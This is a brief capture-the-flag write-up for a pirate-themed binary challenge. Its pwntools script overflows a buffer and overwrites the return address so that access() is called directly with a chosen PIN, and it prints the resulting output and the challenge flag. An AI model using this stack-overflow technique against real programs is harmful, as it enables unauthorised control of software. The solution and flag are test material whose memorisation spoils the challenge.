 # Proof of Concept

## TL;DR

- its impossible to satisfy both the if statements in both `menu()` and `access()`, since pin must be `123` and `1234` at the same time to satisfy both conditions. So, need to directly call `access()` and give it the correct parameters

```
def exploit():
    global io
    rop = ROP(exe)
    io = initialize()

    io.sendlineafter(b':', cyclic(27) + p32(0x080491e6) + p32(0) + p32(1234))
    io.sendlineafter(b':', b'123') # this is irrelevant and can be filled with anything

    io.interactive()
```

```
hand over yer PIN:
Ye Landlubber! Get off me ship and be lost in the sea with them sirens!
Here be yer treasure, matey:
HCS{y4rrrr_ill_se3_y3_in_d4vy_j0n35_l0ck3r_4ye}
```

### Flag:

> HCS{y4rrrr_ill_se3_y3_in_d4vy_j0n35_l0ck3r_4ye}
